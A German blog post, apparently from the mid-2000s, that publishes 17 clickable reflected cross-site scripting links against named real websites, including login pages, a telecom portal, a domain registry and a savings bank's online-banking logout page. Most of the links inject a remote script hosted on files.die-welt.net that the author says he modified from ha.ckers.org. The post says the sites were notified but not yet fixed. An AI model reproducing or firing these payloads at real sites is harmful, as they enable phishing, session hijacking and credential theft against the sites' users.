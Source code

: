 <html><body><p>Ich fürchte, ich habe zu lange geschwiegen und zu wenig getan (naja, getan hab ich schon einiges, nur nix veröffentlicht...).<br>

Auf jeden Fall hab ich von ha.ckers.org die s.js geklaut und etwas angepasst, dadurch kann man den ganzen Sicherheitsfutzies jetzt noch kräftiger eins auswischen. Aber klickt selbst:<br>

<br>

<a href="http://www.bvr.de/public.nsf/search.html?SearchView&amp;SearchOrder=1&amp;main=500&amp;SearchWV=TRUE&amp;query=%28*%22%3E%3Ch1%3Ejetzt%20weiss%20ich%20warum%20es%20soviel%20phishing%20gibt%3C/h1%3E*%29&amp;qorig=%22%3E%3Ch1%3Ejetzt%20weiss%20ich%2C%20warum%20es%20soviel%20phishing%20gibt%3C/h1%3E&amp;so=3&amp;start=1&amp;count=50" target="_blank">XSS in der Suche von bvr.de</a><br>

<a href="http://www.transtec.de/D/D/tools/search.html?q=%3Cscript%20src=%22http://files.die-welt.net/s.js%22%3E&amp;go=." target="_blank">XSS in der Suche von transtec.de</a><br>

<a href="http://pcgratis.de/suche.php?search=%3Cscript%20src=%22http://files.die-welt.net/s.js%22%3E&amp;x=0&amp;y=0" target="_blank">XSS in der Suche von pcgratis.de</a><br>

<a href="http://www.frag-mutti.de/search.php?search=%22%3E%3Cscript%20src=http://files.die-welt.net/s.js%3E&amp;submit=B" target="_blank">XSS in der Suche von frag-mutti.de</a><br>

<a href="http://www.frag-vati.de/search.php?search=%22%3E%3Cscript%20src=http://files.die-welt.net/s.js%3E&amp;submit=B" target="_blank">XSS in der Suche von frag-vati.de</a><br>

<a href="http://www.friendscout24.de/?username=%22%3E%3Cscript%20src=%22http://files.die-welt.net/s.js%22%3E&amp;password=&amp;md5hash=dooo" target="_blank">XSS im Login von friendscout24.de</a><br>

<a href="http://www.jobscout24.de/bewerber/LoginFailed.asp?err=%3Cscript%20src=%22http://files.die-welt.net/s.js%22%3" target="_blank">XSS in Login-Error von jobscout24.de</a><br>

<a href="http://www.denic.de/de/special/results.jsp?query=%22%3E%22%3Cscript%20src=%22http://files.die-welt.net/s.js%22%3E&amp;querypostfix=&amp;lang=de&amp;x=11&amp;y=13&amp;hpp=10" target="_blank">XSS in der Suche von denic.de</a><br>

<a href="https://login.o2online.de/loginRegistration/loginAction.do?_flowId=startLogin&amp;loginName=%22%3E%3Ch1%3ESicher?%3C/h1%3E" target="_blank">XSS im Login von o2online.de (HTTPS!)</a><br>

<a href="http://haerting.de/de/suche/index.php?we_lv_search_0=%3Cscript%20src=http://files.die-welt.net/s.js%3E" target="_blank">XSS in der Suche von haerting.de</a><br>

<a href="http://www.starkalender.de/sk/suche/index.html?daten%5Bsuche%5D=%3Cscript%20src=http://files.die-welt.net/s.js%3E&amp;imageField.x=0&amp;imageField.y=0" target="_blank">XSS in der Suche von starkalender.de</a><br>

<a href="http://www.titus.de/screen.phtml?screen=ws_extendedsearch&amp;Query=%22%3E%3Cscript%20src=%22http://files.die-welt.net/s.js%22%3E&amp;submitBut_x=0&amp;submitBut_y=0&amp;submitBut=1" target="_blank">XSS in der Suche von titus.de</a><br>

<a href="http://die-patrone.de/index.php?search_word_2=%27%3E%3Cimg%20src=http://www.billigdrucker.de/cImages/B0000AT4Z7.03.MZZZZZZZ.jpg%3E&amp;x=0&amp;y=0" target="_blank">XSS in der Suche von die-patrone.de (die ersetzen alle "-" mit " " aber lassen sonst alles zu!?)</a><br>

<a href="http://www.my-sad.com/sad/search.php?criteria=%3Cscript%20src=http://files.die-welt.net/s.js%3E" target="_blank">XSS in der Suche von my-sad.de</a><br>

<a href="http://www.faz.net/IN/INtemplates/faznet/pagenotfound.asp?err=%3Cscript%20src=%22http://files.die-welt.net/s.js%22%3E" target="_blank">XSS im 404-Error von faz.net</a><br>

<a href="https://bankingportal.sskduesseldorf.de/banking/FeLogout?AUFTRITT=%22%3E%3Cscript%20src=%22http://files.die-welt.net/s.js%22%3E" target="_blank">XSS im Logout-Screen von sskduesseldorf.de</a><br>

<a href="http://www.mdr.de/newsletter/login.html?f_username=%22%3E%3Cscript%20src=%22http://files.die-welt.net/s.js%22%3E&amp;f_action=login" target="_blank">XSS im Login von mdr.de</a><br>

<br>

Macht also 17 Links, unter anderem Zeitungen, OnlineShops, Fernsehsender und <strong>MEINE BANK</strong> OMFG!!!elf<br>

Diese habe ich übrigens am Montag um 11:30 angemailt, leider bis dato keine Rückmeldung und kein Fix. Schonnirgendwie traurig das Ganze.<br>

Aber am härtesten finde ich die zwei Links in der Mitte, DENIC und o2, beides Firmen die einen Teil ihres Vermögens im Internet machen, und dann so was? Gibt es noch echte Sicherheit auf der Welt oder leben wir alle in einer Matrix, die uns SSL-Schlösser vortäuscht und unsere Daten aus späht?</p></body></html>